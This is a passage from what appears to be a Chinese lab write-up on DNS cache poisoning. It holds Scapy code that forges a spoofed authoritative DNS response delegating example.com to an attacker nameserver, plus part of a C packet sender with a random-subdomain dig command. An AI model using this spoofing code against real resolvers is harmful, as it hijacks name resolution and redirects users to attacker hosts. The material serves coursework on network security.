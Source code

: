 ~~~python
higher_DNS_ServerL="198.32.64.12"
higher_DNS_ServerM="202.12.27.33"


NS_rdata='ns.lpxattacker.net'
name = 'twysw.example.com'
base_name='example.com'


Qdsec = DNSQR(qname=name) 


Anssec1 = DNSRR(rrname=name, type='A', rdata=attacker3, ttl=259200)
Addsec1  = DNSRR(rrname=NS_rdata, type='A', rdata=attacker3, ttl=259200)
NSsec1 = DNSRR(rrname=base_name, type='NS',ttl=259200, rdata=NS_rdata)

dns = DNS(id=0xAAAA, aa=1, rd=0, qr=1, 
qdcount=1, ancount=1, nscount=1, arcount=1,
qd=Qdsec, an=Anssec1,ns=NSsec1,ar=Addsec1) 

# Construct the IP, UDP headers, and the entire packet 
ip = IP(dst=DNS_server, src=higher_DNS_ServerM, chksum=0) 
udp = UDP(dport=33333, sport=53, chksum=0) 
pkt = ip/udp/dns 
# Save the packet to a file 


with open('Payload.bin', 'wb') as f: 
    f.write(bytes(pkt))
    
#send(pkt_q)

~~~



16进制打开`Payload.bin`，目标画上标记的就是我们所需要进行响应的报文

![image-20230426172036851](C:\Users\koazy-0\Desktop\计算机网络安全\实验\lab2\pic\image-20230426172036851.png)

用`DNS_Poison.c`进行发包，代码过长这里不详细列出。这里只讲解关键字段

~~~c++
//几个DNS root server 的IP地址
char Root_server[13][4]={
	0xc6,0x29,0x00,0x04,
	0x80,0x09,0x00,0x6b,
	0xc0,0x21,0x04,0x0c,
	0x80,0x08,0x0a,0x5a,
	0xc0,0xcb,0xe6,0x0a,
	0xc0,0x05,0x05,0xf1,
	0xc0,0x70,0x24,0x04,
	0x80,0x3f,0x02,0x35,
	0xc0,0x24,0x94,0x11,
	0xc0,0x3a,0x80,0x1e,
	0xc1,0x00,0x0e,0x81,
	0xc6,0x20,0x40,0x0c,
	0xca,0x0c,0x1b,0x21
};

int base = 97;
char random_char[6];
char command[]="dig xxxxx.example.com&";

//尽量做到随机，生成a-z里面的字符
~~~